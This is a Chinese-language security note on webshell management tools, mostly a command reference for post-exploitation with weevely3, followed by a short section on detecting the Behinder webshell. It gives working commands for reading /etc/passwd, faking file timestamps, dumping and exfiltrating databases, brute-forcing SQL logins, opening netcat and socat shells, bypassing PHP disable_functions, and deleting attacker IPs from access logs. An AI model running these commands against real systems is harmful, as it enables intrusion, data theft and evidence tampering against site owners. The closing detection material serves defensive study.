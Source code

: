 ### Webshell管理工具

* 通用功能
  * 主控端proxy - 主控端可使用代理IP与webshell交互 主控端的自我保护"反溯源"
  * 流量混淆 - 避免被NTA检测到明文流量特征
  * 文件混淆 - 避免被主机agent检测到文件特征
  * ...

|名称|主控端|被控端|文件特征|流量特征|主控端proxy|描述|
|:-----:|--|--|---|---|---|----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python>= 2.7.10| .php | 混淆内容 | 编码(xor) |[shell proxy](sec_proxy.md#shell-proxy)|更适合linux环境下的后渗透. 特别的一点是自带php实现的zip压缩,便于打包"web应用源码"等|
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java(Jre6-8)|.php(5.4-7.2) .jsp(java 6+) .asp .aspx(.NET 2.0+)| 固定内容 可做变形 | 加密(aes) |http(s) proxy|"冰蝎"动态二进制加密 webshell管理端 |
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|/|/|/|TCP tunneling over HTTP/HTTPS for web application servers. [Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |


#### jsp环境

```
# 设置webshell.jsp的"修改时间" 设置成1.jsp的"修改时间"
touch -r 1.jsp webshell.jsp
```

#### php环境 weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意避免递归压缩!(压缩包 不应保存在被压缩或将被压缩的文件夹中)否则压缩过程被中断!
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 压缩文件命令`:file_tar` 只支持linux(待确认)
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描 - 使用PHP函数[fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
    * 工具命令`:net_scan 127.0.0.1 21,22,80,443,1433,3306,3389,7001`
  * proxy
    * 工具命令`:net_proxy` 使用目标主机的IP发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互
    * 工具命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句
      * 对MySQL进行信息搜集 `SELECT version();` `show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库到本地（前提是MySQL需要权限 可导出文件到某目录）
    * 常见问题:无权限导出文件
      * 查看MySQL权限 `show global variables like '%secure_file_priv%';` 如果查询结果为NULL 则没有权限直接使用SQL语句导入导出文件. 有变通方法
      * 保存sql查询的结果即可 ```SELECT * FROM `table1`;```
        * 常见问题:如果sql查询的结果数据过多 导致sql查询超时? 也有变通方法
        * 先确定数据条数 ```SELECT COUNT(*) FROM `table1`;``` 
        * 再分多次查询 ```SELECT * FROM `table1` ORDER BY `id` ASC LIMIT 0,20;``` 从第1条数据开始(起点) 查询得到20条数据(数据量) 下次`LIMIT 20,20`再得到20条数据 ... 以此类推 最后拼接查询结果 得到整个表的数据
    * 实现dump方式1 使用php实现(默认) 支持mysql,pgsql,sqlite,dblib  php代码见[weevely3/mysqldump.tpl](https://github.com/epinna/weevely3/blob/master/modules/sql/_dump/mysqldump.tpl) 原项目为[mysqldump-php](https://github.com/ifsnop/mysqldump-php)
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306` 把数据库dump 下载保存到本地目录`/var`下. 可指定保存为本地文件`-lpath /Users/xxx/Downloads/db1.sqldump`
    * 实现dump方式2 执行系统命令(只支持MySQL) 使用weevely中定义的php类`ShellCmd`执行系统命令启动`mysqldump`程序实现
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -vector mysqldump_sh`
  * 数据复原:将得到的数据库文件`xx.sqldump`(内容为sql语句) 导入到MySQL数据库
    * 自搭mysqld服务 并登录`mysql -u root -p`
    * 使用MySQL命令 创建 新数据库`CREATE DATABASE new_database;`
    * 在shell下导入数据库文件`data.sqldump`到新数据库`new_database` 命令`mysql -u username -p new_database < xx.sqldump`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:

该检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)

部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```
